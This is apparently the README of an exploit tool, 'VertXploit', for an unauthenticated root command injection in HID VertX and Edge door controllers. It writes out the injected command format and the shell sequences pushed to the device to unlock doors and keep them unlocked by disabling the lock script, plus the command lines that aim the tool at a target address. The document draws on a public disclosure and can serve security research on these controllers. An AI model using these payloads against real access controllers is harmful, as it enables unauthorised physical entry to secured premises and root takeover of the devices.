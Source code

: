 # VertXploit
Command Injection on HID VertX and Edge Door Controllers

## Summary ##
Originally disclosed by Ricky "HeadlessZeke" Lawshae of Trend Micro DVLabs

This vulnerability allows remote attackers to execute arbitrary code on VertX, Edge, and EVO HID access control panels. Authentication is not required to exploit this vulnerability.

The specific flaw exists within the discoveryd service. The issue lies in the failure to sanitize user data before executing a system call. An attacker could leverage this vulnerability to execute code with root privileges.

The actual location of the command injection is in the `command_blink_on` command. Normally, the command string would terminate with the number of times the VertX controller light should blink, in this case 30 times. 

`command_blink_on;042;<MAC_ADDRESS>;30;`

By replacing the number of blinks with a Linux command and wrapping it in back ticks, the command will get executed by the controller.

``command_blink_on;042;<MAC_ADDRESS>;`ping -c 5 192.168.0.39`;``

## Usage ##
The only requirement is the IP address of an un-patched HID VertX door controller. The device itself uses UDP port 4070 by default.

Running the script without specifying a raw payload, `--raw`, or action, `--action`, will attempt to fingerprint the VertX controller and return version information.

To remotely unlock and lock doors connected to the VertX controller commands are echoed to `/tmp/a`. This is done because there is a length limit of how many characters can be sent to the controller. <i>Note: echo is used instead of printf because some older VertX controllers are running BusyBox < 1.0.1 which does not include printf.</i>

Newlines from echoing the commands into the file are then removed by running `tr -d '\n' < /tmp/a > /tmp/b` and intentional newlines are inserted by running `tr '!' '\n' < /tmp/b > /tmp/a`. The script `/tmp/a` is then executed and both files are deleted. Below shows what commands are being echoed into `/tmp/a` for sending the unlock and lock the commands to the VertX controller

### Unlock ###
	# Set QUERY_STRING to the door unlock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=1"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Remove executable permissions to prevent the door from locking
	chmod -x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

### Lock ###
	# Enable executable permissions
	chmod +x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Set QUERY_STRING to the door lock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=0"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi

### Raw Payload ###
Depending on what payload is being sent, the VertX system may not be able to execute the command because it is not installed (i.e. Python, PERL, ruby, etc). As a simple proof of concept, the Linux 'ping' command seems to work on all VertX models tested.


## Examples ##

###### Fingerprint a VertX controller

`python vertXploit.py -i 192.168.0.5`

###### Unlock doors connected to the VertX controller

`python vertXploit.py -i 192.168.0.5 --action unlock`

###### Lock doors connected to the VertX controller

`python vertXploit.py -i 192.168.0.5 --action lock`

###### Execute the command 'ping -c 5 192.168.0.39'

`python vertXploit.py -i 192.168.0.5 ping -c 5 192.168.0.39`


## Resources ##
* HeadlessZeke - https://github.com/headlesszeke/defcon24-demos
* TrendMicro Blog - http://blog.trendmicro.com/let-get-door-remote-root-vulnerability-hid-door-controllers/
* ZDI - http://www.zerodayinitiative.com/advisories/ZDI-16-223/
* Other Work - http://nosedookie.blogspot.com/2011/07/identifying-and-querying-hid-vertx.html
